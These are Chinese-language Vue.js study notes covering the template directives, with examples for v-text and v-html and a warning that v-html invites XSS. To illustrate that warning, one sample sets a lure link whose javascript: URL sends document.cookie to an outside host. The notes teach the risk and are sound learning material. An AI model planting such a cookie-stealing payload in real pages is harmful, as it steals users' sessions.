 `v-for`：遍历数组/对象/字符串

`v-on `：绑定事件监听, 可简写为`@`

`v-if`：条件渲染（动态控制节点是否存存在）

`v-else`：条件渲染（动态控制节点是否存存在）

`v-show`：条件渲染 (动态控制节点是否展示)

------

`v-text`指令：

1. 作用：向其所在的节点中渲染文本内容。

2. 与插值语法的区别：v-text会替换掉节点中的内容，`{{xx}}`则不会

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-text="name"></div>
</div>

<script>
    new Vue({
        el: '#root',
        data: {
			name: 'XDU',
            str: 'hello!'
        }
    })
</script>
```

`v-html`指令：

1. 作用：向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别：

​	（1）`v-html`会替换掉节点中所有的内容，`{{xx}}`则不会。

​	（2）`v-html`可以识别html结构。

3. 严重注意：`v-html`有安全性问题！！！！

​	（1）在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​	（2）一定要在可信的内容上使用`v-html`，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>


<script>
    new Vue({
        el: '#root',
        data: {
            name: 'XDU',
            str: '<h3>hello</h3>',
            str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
        },
    })
```
